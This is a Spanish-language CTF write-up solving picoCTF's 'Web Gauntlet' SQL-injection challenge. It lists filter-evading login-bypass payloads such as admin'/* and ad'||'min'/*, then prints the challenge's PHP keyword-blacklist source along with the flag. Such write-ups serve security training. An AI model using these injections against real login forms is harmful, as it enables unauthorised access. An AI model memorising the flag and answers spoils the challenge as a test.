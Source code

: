 ```yaml
---
title: Web Gauntlet
date: 2025-07-20 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, pententing web, sqli]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Web Gauntlet
Author: madStacks
If the flag is not displayed after completing this challenge, try clearing your cookies. Cookies set by other challenges may prevent the flag from displaying properly.
Description
Can you beat the filters? Log in as admin jupiter.challenges.picoctf.org:54319 jupiter.challenges.picoctf.org:54319/filter.php
{: .prompt-tip }

Cuando abres las web encontrarás un formulario de usuario:password.
En el primer round verás que se trata de tratar de bypassear el login mediante inyecciones SQL. Pues la query del primer round se muestra en la propia web.

Al cabo de un rato de jugar con la página le puse un poco más de atención a la página *filter.php*, pues parece que nos quiere indicar algo, comienzo probando expresiones mientras capturo con Zap. 
Round 1 / 5
filter.php tenemos Round1: or

```
admin'--
```

Round 2 / 5
filter.php Round2: or and like = -- . Ahora entiendo mejor la mecánica, cada filtro indica una serie de expresiones que no podremos utilizar en la inyección. Así que cambio el -- de comentario por el multilínea /*

```
admin'/*
```

Round 3 / 5
filter.php Round3: or and = like > < --. Podemos repetir la inyección, mientras no usemos las expresiones expresada en los filtros. 

```
admin'/*
```

Round 4 / 5
filter.php Round4: or and = like > < -- admin. Concatenamos admin para que no se cumpla el filtro.

```
ad'||'min'/*
```

Round 5 / 5
Round5: or and = like > < -- union admin. Repetimos ya que cumple, de hecho supongo que se puede usar esta para todas las anteriores, pues pasaría todos los filtros. 

```
ad'||'min'/*
```

Round 6 / 5
Congrats! You won! Check out filter.php

Ok nos dice que miremos filter.php y nos entrega el código fuente con la flag

``` php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
?> 
```
¿Interesante reto pero poco realista? Quiero decir que nadie va a cambiar esos filtros dinámicamente. ¿O sí? Todo es posible.

flag: **picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}**